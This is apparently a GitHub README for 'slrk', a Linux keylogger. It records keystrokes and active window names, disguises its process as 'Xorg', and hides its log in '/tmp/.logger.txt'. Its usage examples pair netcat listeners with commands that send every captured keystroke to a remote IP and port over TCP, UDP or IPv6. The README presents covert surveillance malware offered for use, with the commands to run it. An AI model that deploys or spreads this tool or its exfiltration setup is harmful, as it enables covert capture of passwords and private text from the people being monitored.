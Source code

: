 # Simple_Local&Remote_Keylogger

DESCRIPTION:<br>

Simple keylogger that runs on Linux.
<br>It shows the active window on which the target is writing.
<br>Keys are mapped on English keyboard.
<br>It shows the keyboard layout (e.g.: us, it, colemak, etc..).
<br>Process name is renamed as "Xorg".
<br>It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
---It works with both TCP and UDP---<br><br>
[TCP]<br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
[UDP] <br>
Server$ nc -u -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
---It works with ipv6 too--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________


